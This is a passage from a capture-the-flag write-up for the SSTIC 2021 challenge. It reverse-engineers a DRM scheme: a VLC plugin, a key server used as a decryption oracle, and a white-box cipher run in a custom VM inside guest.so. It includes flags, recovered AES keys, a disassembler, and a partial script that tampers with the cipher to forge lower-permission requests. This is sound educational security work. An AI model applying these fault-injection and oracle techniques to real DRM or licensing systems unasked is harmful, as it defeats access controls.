for this. It uses a custom architecture which garantee even more security!
In any case, the device is configured in debug mode so production keys can't
be accessed.

The file DRM_server.tar.gz is the remote part of the solution, but for now we
can't emulate the device, so some feature are only available remotely.
The file libchall_plugin.so is a VLC plugin that will allow you to test the solution,
if you ever decide to install Linux :)

Trou
```

I usually run a headless Linux VM, so just for this challenge I installed another Ubuntu Desktop VM just to install VLC and the plugin. I stuck the plugin in `/usr/lib/x86_64-linux-gnu/vlc/plugins/access`, started up Wireshark to capture the plugin's traffic, and booted up VLC. In the Playlist view, a new option called "Chall media services" appeared under the Internet radio stations, which showed a single `/` directory. Expanding that showed four subdirectories: `/admin`, `/ambiance`, `/prod` and `/rumps`. The first three were inaccessible, but inside the last, I found three files - and one of them was named like a flag!


Flag for Stage 2: `SSTIC{8b3cd21b2bba44c680b9533f7f81c249}`

## Stage 3

Now, we have a DRM solution which can download a limited set of files off of the media server. The next step is to figure out exactly how the DRM solution works, in the hopes that it'll reveal a way forward.

### Analyzing the plugin traffic

The VLC plugin generates quite a lot of traffic while interacting with the Chall media services. Here's an overview:

- Downloads http://challenge2021.sstic.org:8080/api/guest.so, which is a large (3.7 MiB) Linux shared object.
- Communicates with 62.210.125.243:1337. The following short messages are exchanged:
    - Server: `53544943` ("STIC")
    - Client: `00baf978ca2de602a7bcee9bc629e4c5165ea46960`
    - Server: `010000000000000000ffffffffffffffff`
    - Client: `01ba098df2fb12f195c403f3142fd722785ea46960`
    - Server: `03696464b99ff1e025105f6235fa67c91d`
- Downloads http://challenge2021.sstic.org:8080/files/index.json, which is a plain JSON file containing the following: `[{"name": "930e553d6a3920d05c99bc3111aaf288a94e7961b03e1914ca5bcda32ba9408c.enc", "real_name": "admin", "type": "dir_index", "perms": "0000000000000000", "ident": "75edff360609c9f7"}, {"name": "4e40398697616f77509274494b08a687dd5cc1a7c7a5720c75782ab9b3cf91af.enc", "real_name": "ambiance", "type": "dir_index", "perms": "00000000cc90ebfe", "ident": "6811af029018505f"}, {"name": "e1428828ed32e37beba57986db574aae48fde02a85c092ac0d358b39094b2328.enc", "real_name": "prod", "type": "dir_index", "perms": "0000000000001000", "ident": "d603c7e177f13c40"}, {"name": "40f865fb77c3fd6a3eb9567b4ad52016095d152dc686e35c3321a06f105bcaba.enc", "real_name": "rumps", "type": "dir_index", "perms": "ffffffffffffffff", "ident": "68963b6c026c3642"}]`
- Downloads http://challenge2021.sstic.org:8080/files/40f865fb77c3fd6a3eb9567b4ad52016095d152dc686e35c3321a06f105bcaba.enc; this is referred to as the "rumps" entry in the `index.json`.

Upon opening one of the videos in `rumps`, a few messages are exchanged with 62.210.125.243:1337, and then some large `.enc` files are downloaded out of the `http://challenge2021.sstic.org:8080/files/` directory.

### Reversing the plugin

The plugin is an unobfuscated (and unstripped) plugin for VLC; decompilation can be found in [`stage3/libchall_plugin.so.c`](files/stage3/libchall_plugin.so.c) and [`stage3/libchall_plugin.so.h`](files/stage3/libchall_plugin.so.h). The entry point, `vlc_entry__3_0_0f`, uses a bunch of calls to `vlc_set` (passed in as a function pointer) to configure new modules and options for the plugin. The server http://challenge2021.sstic.org:8080 is referred to as the "media server", and the server 62.210.125.243:1337 is referred to as the "key server". A username and password can also optionally be supplied for the media server, but we don't currently possess any valid login credentials.

Looking for the string `/api/guest.so`, we find a reference in the function `open_state_internal`. This function will download `/api/auth.so` if a login is provided (using HTTP Basic Authentication), or `/api/guest.so` if no login is provided. It then saves the downloaded library into `/tmp`, then `dlopen`'s it, resolves the symbols `useVM`, `getPerms` and `getIdent`, then saves the function pointers into a structure. We'll look at the `guest.so` file later (we can't download `auth.so` because we don't have any login for it).

The function pointers notably get used in a function called `hsign`, which is in turn called by `get_file_key`. This function sounds very promising! `get_file_key` does the following:

- It takes a context argument (the structure containing `useVM` function pointers, etc.), a `uint64_t`, and a pointer.
- It calls `hsign`, which does the following:
    - Call `open_state` if necessary to download and `dlopen` `guest.so`.
    - Fill a 16 byte buffer, where the first 8 bytes are the `uint64_t` from `get_file_key`, and the second 8 bytes filled in by calling `getPerms`.
    - Call `useVM` on that 16-byte buffer, producing another 16-byte buffer.
    - Fill in another 4 bytes by calling `getIdent`, producing a 20-byte buffer in total.
    - If `getIdent` returns a value more than 3600 seconds (one hour) after the current system time, close the current library and start over.
- With `hsign`'s 20-byte payload, call `getkey`, which does:
    - Connect to the key server if necessary, receiving the four byte `STIC` banner
    - Send a 21-byte payload, which is the byte 0x01 followed by the 20 bytes from `hsign`
    - Receive a single response byte; if this byte is 00, 01, 02 or 03, receive 16 more bytes.
    - Return the response byte and the 16 bytes
- If `getkey` succeeds (response is 0x03), the 16 bytes are returned.

The returned `key` is used as an AES-CBC decryption key by `download_file_with_key`; we can verify this by test-decrypting the `rumps` file with the key `696464b99ff1e025105f6235fa67c91d` sent by the key server:

```python
from Crypto.Cipher import AES
from Crypto.Util import Counter
data = open('40f865fb77c3fd6a3eb9567b4ad52016095d152dc686e35c3321a06f105bcaba.enc', 'rb').read()
cipher = AES.new(bytes.fromhex('696464b99ff1e025105f6235fa67c91d'), mode=AES.MODE_CTR, counter=Counter.new(128))
print(cipher.decrypt(data))
```

This decryption succeeds, and we obtain the following contents:

```
[{"name": "15e17a4e89e609832b5a8d389a6cb62b1242cacce44501a2cf57d4d202178716.enc", "real_name": "SSTIC06-Rump-Hack_Elysee-Nikoteen.mp4", "type": "mp4", "perms": "ffffffffffffffff", "ident": "6fc51949a75bfa98"}, {"name": "63e5d570187fb2a1933d931ccd1e0b068ab0ff27a98ab7461ec30cb2d0510f5e.enc", "real_name": "SSTIC08-Rump-Du_temps_de_cerveau_humain_disponible-Nikoteen.mp4", "type": "mp4", "perms": "ffffffffffffffff", "ident": "675160efed2d139b"}, {"name": "3615b9049cabb9618aca05de639f89298e23c3d83fe82a24a0a488262148d299.enc", "real_name": "SSTIC{8b3cd21b2bba44c680b9533f7f81c249}.mp4", "type": "mp4", "perms": "ffffffffffffffff", "ident": "583c5e51d0e1ab05"}]
```

This is another JSON file, in the same format as `index.json` showing the contents of the `rumps` directory and the stage 2 flag. Now, we'd like to know where the keys come from in the key server, so we can decrypt more stuff.

### Reversing the service binary

The `run_qemu.sh` script sets up port forwarding to port 1337, suggesting that this in fact the implementation for the key server. The `init` script from the ramdisk does the following:

- Creates and mounts `/proc` and `/sys` but sets them to be accessible by root only
- Loads the `/lib/modules/sstic.ko` kernel module, and sets the resulting device file `/dev/sstic` to be r/w accessible to all users
- Set up `/home/sstic` and launch `/home/sstic/service` as UID 1000 (the unprivileged `sstic` user)

Let's look at `service` first. This is a large, statically linked and stripped Linux binary. Luckily, the `libc` they're using is quite simple (probably something like uclibc/musl libc) so things like syscalls are relatively easy to identify. In addition, lots of error checking code helps to identify the functions that are being called.

The `main` function is quite simple. It does the following:

- Create a `SOCK_STREAM` socket, bind it to 0.0.0.0:1337, call `listen(sock, 1)`, and `accept` a single connection. (This is a bit odd, since usually servers loop on `accept`, but it looks like a single launch of `service` can only handle a single client).
- Once a client connects, send them the `STIC` banner (four bytes), then loop until the client disconnects.
- Each iteration, read 17 bytes. The first byte is a "reqno" and must be 0, 1, 2 or 3.

For reqno 0 (which is the first message sent by the client), the handler function at 0xA85C receives 4 more bytes (the `ident` from `guest.so`), then calls the function at 0xA0FF. This function opens `/dev/sstic` and interacts with it using the 16 bytes after the `reqno` and the 4-byte `ident`. This is referred to as "decryption" by the error handling code in the caller. The decrypted data is 16 bytes long. The `ident` is checked to see if it has expired (if it is less than 1 hour behind `time()`), but regardless of the result, the decrypted data is simply sent back to the client.

For reqno 1-3, the function at 0xA9F7 also receives the 4-byte `ident`, and returns a failure code if it is more than an hour behind `time()` (i.e. a strict version of the check in reqno 0). It then also calls 0xA0FF to decrypt the input, then the last 8 bytes of the decrypted data, as a `uint64`, are checked against an array: reqno's 0 and 1 are allowed if the value is `<= 0xffffffffffffffff` (which is always true), reqno 2 is allowed if the value is `<= 0x100`, and reqno 3 is allowed if the value is `<= 0x10`. The code refers to this as "perms".

reqno 0 functions as a "decryption oracle", i.e. we can send it any 16 byte payload + 4 byte ident and it will decrypt it and send the result back. We can, for example, decrypt the `01` message sent by the client in our packet capture (`01ba098df2fb12f195c403f3142fd722785ea46960`): simply send `00ba098df2fb12f195c403f3142fd722785ea46960` to the server, and get the response: `0242366c026c3b9668ffffffffffffffff`. This means that the ident is expired (0x02), with the decrypted contents `42366c026c3b9668ffffffffffffffff`. The first half matches the `ident` of the `rumps` entry in `index.json` (but byteswapped - the `rumps` ident is `68963b6c026c3642`), and the second half is `0xffffffffffffffff`, which is a `perms` that only allows reqno 1 to be called. Indeed, this decrypted payload is exactly what `hsign` inputs to `useVM` - so we have what appears to be an encryption function in `useVM` from `guest.so`, and a corresponding decryption function in the `service` binary (implemented in the `/dev/sstic` hardware device).

reqno 1 accesses keys from the hardware device. It consults a *hardcoded table of files* in the binary, which contains the `ident` and `perms` for a total of 21 files. Here is the table:

```
ident                 perms
0x6FC51949A75BFA98    0xFFFFFFFFFFFFFFFF
0x583C5E51D0E1AB05    0xFFFFFFFFFFFFFFFF
0x675160EFED2D139B    0xFFFFFFFFFFFFFFFF
0x08ABDA216C40B90C    0xCC90EBFE
0x1D0DFAA715724B5A    0xCC90EBFE
0x3A8AD6D7F95E3487    0xCC90EBFE
0x325149E3FC923A77    0xCC90EBFE
0x46DCC15BCD2DB798    0xCC90EBFE
0x4CE294122B6BD2D7    0xCC90EBFE
0x4145107573514DCC    0xCC90EBFE
0x675B9C51B9352849    0x0
0x3B2C4583A5C9E4EB    0x0
0x58B7CBFEC9E4BCE3    0x0
0x272FED81EAB31A41    0x0
0xFBDF1AF71DD4DDDA    0x0
0xED6787E18B12543E    0x3E8
0x68963B6C026C3642    0xFFFFFFFFFFFFFFFF
0x6811AF029018505F    0xCC90EBFE
0x59BDD204AA7112ED    0x0
0x75EDFF360609C9F7    0x0
0xD603C7E177F13C40    0x3E8
```

Once again, we're not allowed to get the key for a file if the file's `perms` are less than the message's `perms`. Our message's `perms` are currently set to 0xFFFFFFFFFFFFFFFF - i.e., we can only access four files: `0x6FC51949A75BFA98`, `0x583C5E51D0E1AB05`, `0x675160EFED2D139B`, and `0x68963B6C026C3642`. These file `ident`s correspond to the `rumps` index and the three video files it contains:

```
ident                 perms               key
0x6FC51949A75BFA98    0xFFFFFFFFFFFFFFFF  31b2a4202f39857169fa60e15b5a3559
0x583C5E51D0E1AB05    0xFFFFFFFFFFFFFFFF  ec55393766d70f07b8e5e44dab0accb4
0x675160EFED2D139B    0xFFFFFFFFFFFFFFFF  99a2ded8dde36c78fc5dc65053d9f512
0x68963B6C026C3642    0xFFFFFFFFFFFFFFFF  696464b99ff1e025105f6235fa67c91d
```

Our goal is now clear: we want to send a message which, when decrypted, has a sufficiently low `perms` (ideally 0) such that we can send reqno's 2 and 3, and access file keys for other files.

### Intermission

Here's what we know about the architecture of the DRM system so far. The interactions between the components is summarized in the following figure:


In order to view a file or directory, the following steps occur:

1. The VLC plugin contacts the media server to download a `.so` - either `guest.so`, or `auth.so` with the right credentials.
2. The VLC plugin loads the `.so`, and obtains permissions (`perms`) and a time-based identifier (`ident`) from it. For the `guest.so`, the `perms` is set to 0xFFFFFFFFFFFFFFFF, which provides minimal permissions.
3. The VLC plugin contacts the key server. It uses the `.so` to encrypt a message encoding the `ident` of the target file and the predefined `perms`, and sends the encrypted message to the server.
4. The key server checks the received time `ident` to ensure that it hasn't expired, decrypts the message, and fetches the corresponding media encryption key if the message's `perms` are low enough.
5. The VLC plugin receives the media encryption key, downloads the encrypted media file from the media server, and decrypts it for playback or directory enumeration.

`guest.so` implements some kind of encryption algorithm, and we can decrypt anything we want by using reqno 0 to the key server.

### `guest.so`

By using `dlopen` on `guest.so` ourselves, we can confirm the following facts: `getIdent` returns a fixed timestamp which is approximately the time when the `guest.so` was downloaded from the media server, and `getPerms` returns FFFFFFFFFFFFFFFF. `useVM` takes a 16-byte input, but fails (returns non-zero and doesn't modify the output buffer) if the last 8 bytes are not `FFFFFFFFFFFFFFFF`, so it won't be possible to so easily trick it into giving us a lower `perms`. See [`stage3/guest-test.c`](files/stage3/guest-test.c):

```c
// Compile with gcc -ldl
#include <dlfcn.h>
#include <stdio.h>
#include <string.h>
#include <time.h>
#include <stdint.h>

int main() {
    void *handle = dlopen("./guest.so", RTLD_NOW);
    int (*getIdent)(time_t *) = dlsym(handle, "getIdent");
    int (*getPerms)(uint64_t *) = dlsym(handle, "getPerms");
    int (*useVM)(void *, void *) = dlsym(handle, "useVM");

    time_t ident = 0;
    getIdent(&ident);
    printf("ident: %s", ctime(&ident));
    // prints Sun Apr  4 01:36:25 2021

    uint64_t perms = 0;
    getPerms(&perms);
    printf("perms: %lx\n", perms);
    // prints ffffffffffffffff

    // changing any of the 255 bytes in the second half results in failure (result = 1 and output is all 0xcc)
    unsigned char input[16] = {0,0,0,0,0,0,0,0, 255, 255, 255, 255, 255, 255, 255, 255};
    unsigned char output[16];
    memset(output, 0xcc, 16);

    int res = useVM(input, output);

    printf("result: %d\n", res);
    for(int j=0; j<16; j++) {
        printf("%02x ", output[j]);
    }
    printf("\n");
}
```

`guest.so` is very large. Opening it in IDA shows that it's actually mostly composed of data. `useVM`, `getPerms` and `getIdent` are all very simple functions: they all call a large function at 0x1120, which I referred to as `runVM`. `runVM` takes two arguments: an "input" buffer (which is the single byte 0x01 for `getPerms` and the single byte 0x02 for `getIdent`; for `useVM`, it's the byte 0x00 followed by the 16 bytes from the input), and an "output" buffer, which is the same as the output buffer passed to `useVM`/`getPerms`/`getIdent``.

`runVM` is a big function, which consists of a big loop wrapping a switch statement; the switch statement has a lot of cases. Examining each `switch` case suggests that these are operations for a simple virtual machine, which explains the name `useVM`. In other words, each of the externally-visible functions in the library are implemented in terms of a custom virtual machine with a custom architecture.

A "program counter" is initialized to zero. At every iteration of the loop, a single byte (the "opcode") is read from a large static data array (the "program") indexed by the program counter. The `switch` statement decides what to do based on the value of the opcode. Based on the individual operations, the machine appears to be a register machine, with a total of 256 8-bit registers. There are operations for indexed loads from 256-byte and 65536-byte arrays in the program data (with one and two registers, respectively), bitwise operators like xor, and, or, shifts, and rotates, and two kinds of jumps: an unconditional jump, and a jump-if-equal instruction. Finally, there are input and output operations which read/write to *fixed* indices of the input or output respectively, and one instruction that returns a value to `runVM`'s caller. As an extra obfuscation step, the program bytes are encrypted in the binary, and are decrypted during module loading by a shared library constructor (via `.init_array`).

In order to extract the decrypted program for further analysis, I used the trick of simply loading the binary using `dlopen` and then dumping the program from memory ([`stage3/guest-dump.c`](files/stage3/guest-dump.c)):

```c
#include <dlfcn.h>
#include <stdio.h>
#include <string.h>

int main() {
    void *handle = dlopen("./guest.so", RTLD_NOW);
    int (*useVM)(void *, void *) = dlsym(handle, "useVM");
    void *baseaddr = (void *)useVM - 0x1100;

    printf("baseaddr: %p\n", baseaddr);
    FILE *outf = fopen("guest.vm", "w+");
    fwrite(baseaddr + 0x1C030, 3793493, 1, outf);
    fclose(outf);
}
```

Then, I wrote a custom disassembler for the code. It disassembles starting at address 0, jumping to any new addresses on an unconditional jump. For conditional jumps, it maintains a queue of addresses to visit; every conditional jump pushes the jump target to the queue. Disassembly stops on a "return" instruction, or upon hitting a previously-disassembled address, and resumes from the next address on the queue. I used an ARM-like syntax for the disassembly because I am accustomed to reading ARM assembly; see [`stage3/disas.py`](files/stage3/disas.py):

```python
from collections import deque
import struct

prog = open('guest.vm', 'rb').read()
def unpack(fmt, addr):
    res = struct.unpack_from('>' + fmt, prog, addr)
    if len(res) == 1:
        return res[0]
    return res

todo = deque([0])
seen = set()
while todo:
    pc = todo.popleft()
    if pc in seen or pc < 0 or pc >= len(prog):
        continue
    print(f'{pc:6x}:', end=' ')
    seen.add(pc)
    opc = prog[pc]

    if opc == 0xd9:
        dest = unpack('I', pc+1)
        print(f'jmp {dest:#x}')
        todo.appendleft(dest)
        continue

    if opc == 0xf:
        dest = unpack('I', pc+1)
        print(f'jne r{prog[pc+5]}, r{prog[pc+6]}, {dest:#x}')
        todo.append(dest)
        pc += 7
    elif opc == 0xd0:
        ra, rb, off, rd = unpack('BBIB', pc+1)
        print(f'ld r{rd}, prog[256*r{ra} + r{rb} + {off:#x}]')
        pc += 8
    elif opc == 0x6c:
        ra, off, rd = unpack('BIB', pc+1)
        print(f'ld r{rd}, prog[r{ra} + {off:#x}]')
        pc += 7
    elif opc == 0xd2:
        print(f'ret {prog[pc+1]}')
        continue

    elif opc == 0xd7:
        print(f'shr r{prog[pc+3]}, r{prog[pc+1]}, {prog[pc+2]}')
        pc += 4
    elif opc == 0x49:
        print(f'shl r{prog[pc+3]}, r{prog[pc+1]}, {prog[pc+2]}')
        pc += 4
    elif opc == 0x1d:
        print(f'and r{prog[pc+3]}, r{prog[pc+1]}, r{prog[pc+2]}')
        pc += 4
    elif opc == 0x8b:
        print(f'xor r{prog[pc+3]}, r{prog[pc+1]}, r{prog[pc+2]}')
        pc += 4
    elif opc == 0x65:
        print(f'or r{prog[pc+3]}, r{prog[pc+1]}, r{prog[pc+2]}')
        pc += 4
    elif opc == 0x64:
        print(f'rol r{prog[pc+3]}, r{prog[pc+1]}, {prog[pc+2]}')
        pc += 4

    elif opc == 0xde:
        print(f'mov r{prog[pc+2]}, r{prog[pc+1]}')
        pc += 3
    elif opc == 0x10:
        print(f'mov r{prog[pc+2]}, r{prog[pc+1]} >> 4')
        pc += 3
    elif opc == 0x51:
        print(f'mov r{prog[pc+2]}, r{prog[pc+1]} & 0xf')
        pc += 3

    elif opc == 0x15:
        print(f'ld r{prog[pc+2]}, input[{prog[pc+1]}]')
        pc += 3
    elif opc == 0x23:
        print(f'st r{prog[pc+2]}, output[{prog[pc+1]}]')
        pc += 3
    elif opc == 0x3f:
        print(f'mov r{prog[pc+2]}, {prog[pc+1]}')
        pc += 3

    else:
        print(f'unk{opc:02x}')
        pc += 1
    todo.appendleft(pc)
```

The resulting code is over 4000 lines of VM assembly, which looks like this:

```
     0: jmp 0x91ccf
 91ccf: ld r0, input[0]
 91cd2: mov r1, 0
 91cd5: jne r0, r1, 0x91ce1
```

It first checks if the first byte is 0 - if not, it jumps elsewhere to handle the `1` (`getPerms`) and `2` (`getIdent`) cases:

```
 91ce1: mov r1, 1
 91ce4: jne r0, r1, 0x91cf0
 91ceb: jmp 0xb2e81
 b2e81: mov r0, 255
 b2e84: st r0, output[0]
 b2e87: mov r0, 255
 b2e8a: st r0, output[1]
 b2e8d: mov r0, 255
 b2e90: st r0, output[2]
 b2e93: mov r0, 255
 b2e96: st r0, output[3]
 b2e99: mov r0, 255
 b2e9c: st r0, output[4]
 b2e9f: mov r0, 255
 b2ea2: st r0, output[5]
 b2ea5: mov r0, 255
 b2ea8: st r0, output[6]
 b2eab: mov r0, 255
 b2eae: st r0, output[7]
 b2eb1: ret 0
 d3bbe: ret 1

 91cf0: mov r1, 2
 91cf3: jne r0, r1, 0x91cff
 91cfa: jmp 0x38dac3
38dac3: mov r0, 137
38dac6: st r0, output[0]
38dac9: mov r0, 122
38dacc: st r0, output[1]
38dacf: mov r0, 105
38dad2: st r0, output[2]
38dad5: mov r0, 96
38dad8: st r0, output[3]
38dadb: ret 0
```

There are also checks for bytes 3, 4 and 5, which perform other operations that are not exposed in the `guest.so` exports.

If the first byte is 0, corresponding to `useVM`, the code does this:

```
 91cdc: jmp 0x37d98d
37d98d: mov r0, 255
37d990: ld r1, input[9]
37d993: jne r0, r1, 0xd3bbe
37d99a: mov r0, 255
37d99d: ld r1, input[10]
37d9a0: jne r0, r1, 0xd3bbe
37d9a7: mov r0, 255
37d9aa: ld r1, input[11]
37d9ad: jne r0, r1, 0xd3bbe
37d9b4: mov r0, 255
37d9b7: ld r1, input[12]
37d9ba: jne r0, r1, 0xd3bbe
37d9c1: mov r0, 255
37d9c4: ld r1, input[13]
37d9c7: jne r0, r1, 0xd3bbe
37d9ce: mov r0, 255
37d9d1: ld r1, input[14]
37d9d4: jne r0, r1, 0xd3bbe
37d9db: mov r0, 255
37d9de: ld r1, input[15]
37d9e1: jne r0, r1, 0xd3bbe
37d9e8: mov r0, 255
37d9eb: ld r1, input[16]
37d9ee: jne r0, r1, 0xd3bbe
37d9f5: jmp 0x267d35
267d35: ld r0, input[1]
267d38: ld r1, input[2]
267d3b: ld r2, input[3]
267d3e: ld r3, input[4]
267d41: ld r4, input[5]
267d44: ld r5, input[6]
267d47: ld r6, input[7]
267d4a: ld r7, input[8]
267d4d: ld r16, prog[r0 + 0x134b40]
267d54: ld r17, prog[r1 + 0x33b92c]
267d5b: ld r18, prog[r2 + 0x175554]
267d62: ld r19, prog[r3 + 0x710c8]
267d69: ld r20, prog[r4 + 0xc359b]
267d70: ld r21, prog[r5 + 0x816ff]
267d77: ld r22, prog[r6 + 0x1b5e1f]
267d7e: ld r23, prog[r7 + 0x2e9c33]
267d85: xor r16, r16, r21
267d89: xor r17, r17, r22
267d8d: xor r18, r18, r23
267d91: xor r19, r19, r20
...
```

followed by over 700 more lines of table loads (loads from 256-byte and 65536-byte program arrays) and `xor`s - no loops or further conditionals. At the end, 16 bytes are just stored into the output directly:

```
...
288acf: xor r21, r21, r16
288ad3: xor r22, r22, r17
288ad7: xor r23, r23, r18
288adb: ld r0, prog[256*r0 + r20 + 0x36ccb2]
288ae3: ld r1, prog[256*r1 + r21 + 0x36ccb2]
288aeb: ld r2, prog[256*r2 + r22 + 0x36ccb2]
288af3: ld r3, prog[256*r3 + r23 + 0x36ccb2]
288afb: ld r4, prog[256*r4 + r16 + 0x36ccb2]
288b03: ld r5, prog[256*r5 + r17 + 0x36ccb2]
288b0b: ld r6, prog[256*r6 + r18 + 0x36ccb2]
288b13: ld r7, prog[256*r7 + r19 + 0x36ccb2]
288b1b: st r8, output[0]
288b1e: st r9, output[1]
288b21: st r10, output[2]
288b24: st r11, output[3]
288b27: st r12, output[4]
288b2a: st r13, output[5]
288b2d: st r14, output[6]
288b30: st r15, output[7]
288b33: st r0, output[8]
288b36: st r1, output[9]
288b39: st r2, output[10]
288b3c: st r3, output[11]
288b3f: st r4, output[12]
288b42: st r5, output[13]
288b45: st r6, output[14]
288b48: st r7, output[15]
288b4b: ret 0
```

Notably, although there's an obvious check to reject the input if `perms` is not all `255` bytes, these input bytes are not read again later in the function - thus, even if the check is removed, the modified `perms` will have no effect on the output! And, this encryption algorithm looks very strange - it's just a lot of xors and table lookups, not like any cipher I recognize.

This set up suggests some form of white-box cryptography. This is a specific type of cryptography in which the code to perform a particular cryptographic operation - here, the encryption of a file `ident` plus a hardcoded `perms` array - is provided to an adversary (i.e. me), but the cryptographic operation itself is obfuscated to inhibit extraction of the encryption key - that is, the key is effectively entangled with the encryption algorithm. In a normal implementation of a cryptographic algorithm, e.g. AES, the key is a separate input to the algorithm so extracting the key is trivial; in a white-boxed implementation, the simple operations of the underlying cipher are mixed with key-specific operations and expanded across multiple rounds, in order to obfuscate the key's contribution to the algorithm. Without the ability to extract the key, a white-box implementation could, for example, apply unremovable restrictions on the input or output, or be non-invertible (i.e. an attacker could not trivially reverse the algorithm to derive a decryption routine). However, if the key (and original cryptographic algorithm, if unknown) can be extracted from the white-box implementation, then any such restrictions would be lifted.


### Tampering with the Cipher

White-box cryptography is supposed to be strong against an attacker with unlimited access to the code. The attacker can provide arbitrary input, and inspect or modify arbitrary intermediate values (or even modify the algorithm directly). Many white-box implementations fail to provide security to such tampering; techniques such as Differential Fault Analysis (DFA) have been found to effectively break such implementations by introducing calculated errors into the cipher's operation at a certain point, and deducing properties of the (hidden) key from the algorithm's (erroneous) result. The whitepaper [Unboxing the White-Box](https://www.blackhat.com/docs/eu-15/materials/eu-15-Sanfelix-Unboxing-The-White-Box-Practical-Attacks-Against-Obfuscated-Ciphers-wp.pdf) by Sanfelix et al. provides a good introduction to some practical attacks.

I considered applying DFA to this algorithm; in principle, it would not be hard. Indeed, there are repositories online which will run the DFA analysis for you if you give them a suitable program, but I was not able to get them to work immediately. Part of the problem is that I am not sure what the actual cryptographic algorithm is: it's very likely AES given the 16-byte input and 16-byte output, but the key length (which affects the number of rounds) is not known. So, instead, I chose to apply a different sort of fault attack.

The white-box encryption algorithm here takes only 8 bytes as input (the second half of the input is only checked for 0xff and does not affect the operation of the cipher). It implicitly combines that input with 8 0xff bytes during the encryption process. I reasoned that at an early enough stage in the cipher, the extra 8 bytes would not yet have been tightly integrated into the entire block, so it may be possible to tamper with the algorithm early on in order to effect a targeted change in the permission bits.

In order to effectively tamper with the algorithm, I modified my disassembler to spit out executable Python code instead of ARM-like instructions, so I could basically just `exec` my assembly code in order to run the algorithm. This allowed me to insert print statements or targeted modifications anywhere in the code. The disassembler is much the same ([`stage3/interp-disas.py`](files/stage3/interp-disas.py)) and spits out code like this:

```
"267d35:";  r[0] = input[1]
"267d38:";  r[1] = input[2]
"267d3b:";  r[2] = input[3]
"267d3e:";  r[3] = input[4]
"267d41:";  r[4] = input[5]
"267d44:";  r[5] = input[6]
"267d47:";  r[6] = input[7]
"267d4a:";  r[7] = input[8]
"267d4d:";  r[16] = prog[r[0] + 0x134b40]
"267d54:";  r[17] = prog[r[1] + 0x33b92c]
"267d5b:";  r[18] = prog[r[2] + 0x175554]
"267d62:";  r[19] = prog[r[3] + 0x710c8]
"267d69:";  r[20] = prog[r[4] + 0xc359b]
"267d70:";  r[21] = prog[r[5] + 0x816ff]
"267d77:";  r[22] = prog[r[6] + 0x1b5e1f]
"267d7e:";  r[23] = prog[r[7] + 0x2e9c33]
"267d85:";  r[16] = r[16] ^ r[21]
"267d89:";  r[17] = r[17] ^ r[22]
"267d8d:";  r[18] = r[18] ^ r[23]
"267d91:";  r[19] = r[19] ^ r[20]
"267d95:";  r[20] = r[20] ^ r[18]
"267d99:";  r[21] = r[21] ^ r[19]
"267d9d:";  r[22] = r[22] ^ r[16]
"267da1:";  r[23] = r[23] ^ r[17]
"267da5:";  r[16] = r[16] ^ r[23]
"267da9:";  r[17] = r[17] ^ r[20]
"267dad:";  r[18] = r[18] ^ r[21]
"267db1:";  r[19] = r[19] ^ r[22]
"267db5:";  r[20] = r[20] ^ r[19]
"267db9:";  r[21] = r[21] ^ r[16]
"267dbd:";  r[22] = r[22] ^ r[17]
"267dc1:";  r[23] = r[23] ^ r[18]
"267dc5:";  r[8] = prog[r[20] + 0xa278f]
"267dcc:";  r[9] = prog[r[21] + 0x70e0f]
"267dd3:";  r[10] = prog[r[22] + 0x34c54b]
"267dda:";  r[11] = prog[r[23] + 0x30a1eb]
"267de1:";  r[12] = prog[r[16] + 0x278225]
"267de8:";  r[13] = prog[r[17] + 0x257a61]
"267def:";  r[14] = prog[r[18] + 0x34c21f]
"267df6:";  r[15] = prog[r[19] + 0x33affa]
"267dfd:";  r[16] = prog[r[8] + 0x34c11f]
"267e04:";  r[17] = prog[r[9] + 0x31acfa]
"267e0b:";  r[18] = prog[r[10] + 0x34becf]
"267e12:";  r[19] = prog[r[11] + 0x27863a]
"267e19:";  # jmp 0x105
"   105:";  r[20] = prog[r[12] + 0x2d9391]
"   10c:";  r[21] = prog[r[13] + 0x124449]
"   113:";  r[22] = prog[r[14] + 0x185877]
"   11a:";  r[23] = prog[r[15] + 0x20462]
```

A short driver program is all that's needed. Since the server acts like a decryption oracle, we can run our tampered algorithm and ask the server what the decryption is ([`stage3/interp-test.py`](files/stage3/interp-test.py)):

```python
prog = open('guest.vm', 'rb').read()
r = [0] * 256

class DoneExecuting(Exception):
    pass

def ret(n):
    raise DoneExecuting("done: %d" % n)

def run(input):
    input = [0] + input
    output = [0] * 16
    try:
        exec(open('interp.txt', 'r').read(), globals(), locals())
    except DoneExecuting:
        pass
    return output

ident = bytes([137, 122, 105, 96])
from pwn import *

s = remote('62.210.125.243', 1337)
sig = s.recvn(4)
assert sig == b'STIC'

def test(input):
    output = run(input)
    s.send(b'\x00' + bytes(output) + ident)
    resp = s.recvn(1)
    assert resp[0] in (1, 2)
    dec = s.recvn(16)
    return dec.hex()

while 1:
    pause()
    print(test([0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88] + [0xff] * 8))
```

What I could do now was to modify my `interp.txt` containing the interpretable disassembly to include some tampering, and observe the effects on the computed decryption. In the disassembly above, tampering with any of `r[16]` through `r[23]` after line 0x267d7e (right after they are initially loaded by indexing tables with the input bytes) would result in several bit errors across the decrypted `perms`, but no errors in the `ident` - so those loads are what hard code the `perms`. Tampering with them *after* the chain of XORs on the other hand, right before 0x267dc5, resulted in the bit errors being localized to a single byte of the output! That is, modifying any one of `r[16]` through `r[23]` at that point would result in exactly one of the output `perms` bytes being wrong - and no change in the `ident`!

I ended up targeting a spot slightly later, right before 267dfd (after `r[8]` through `r[15]` are loaded), because it has the nice property that tampering `r[i]` modifies byte `i` of the output for i = 8..15. The modifications were mostly independent - each of the 8 tampered registers corresponded with exactly one of the output `perms` bytes and modifications could be stacked to change multiple output bytes. This suggests a byte-by-byte bruteforce strategy for modifying `perms`: for each register, find the value which causes the corresponding output byte to match the target (e.g. 0x00 to get the all-zeros `perms`), then fix that register and start modifying the next one. This strategy worked quite well - for a fixed `ident`, I would send 2048 modified messages to the key server, and obtain the encryption of that `ident` plus `perms = 0` ([`stage3/interp-encrypt.py`](files/stage3/interp-encrypt.py)):

```python
prog = open('guest.vm', 'rb').read()
r = [0] * 256

class DoneExecuting(Exception):
    pass

def ret(n):
    raise DoneExecuting("done: %d" % n)

def run_with_manip(code, manip):
    input = [0] + code
    output = [0] * 16
    try:
        exec(open('interp.txt', 'r').read(), globals(), locals())
    except DoneExecuting:
        pass
    return output

ident = bytes([137, 122, 105, 96])
from pwn import *

s = remote('62.210.125.243', 1337)
sig = s.recvn(4)
assert sig == b'STIC'

def encrypt(payload):
    code = list(payload[:8])
    final = [0] * 16
